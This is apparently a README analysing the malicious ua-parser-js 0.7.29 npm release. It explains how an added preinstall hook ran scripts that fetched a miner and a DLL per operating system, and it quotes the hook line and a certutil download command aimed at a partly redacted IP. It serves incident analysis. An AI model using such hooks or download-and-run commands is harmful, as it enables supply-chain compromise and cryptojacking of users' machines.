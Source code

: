 # ua-parser-vuln

**Data Sources:**

Read the diff here: https://my.diffend.io/npm/ua-parser-js/0.7.28/0.7.29#d2h-701945

Virustotal: https://www.virustotal.com/gui/file/2a3acdcd76575762b18c18c644a745125f55ce121f742d2aad962521bc7f25fd/behavior/C2AE

CISA Announcement: https://us-cert.cisa.gov/ncas/current-activity/2021/10/22/malware-discovered-popular-npm-package-ua-parser-js

Therecord: https://therecord.media/malware-found-in-npm-package-with-millions-of-weekly-downloads/

**Brief overview**
Package.json file has the line:
 ""preinstall": "start /B node preinstall.js & node preinstall.js"," added,  calls the new attack scripts.

File preinstall.js looks to determine Windows, mac, linux, and call the correct next file

**Linux**
On the linux side: It checks the server IP, if in the RU/UA/BY/KZ geo, does nothing. 
Else, it pulls down  jsextention from a remote IP in the Latvia GEO

**Windows:**
1. Pulls down jsextension.exe  (Server serving is not responding)
2. Tries to curl it down
3. If that doesn work, tries wget
4. If that doesnt work, tries certutil
    it runs “certutil.exe -urlcache -f http://159.XXX.XXX.XXX/download/jsextension.exe jsextension.exe
    
5. Then attempts to pull down create.dll from citation<redaction>.at
    Currently at a russian IP address block
6. Then adds the execute to tasklist , to connect to pool.minexmr.****

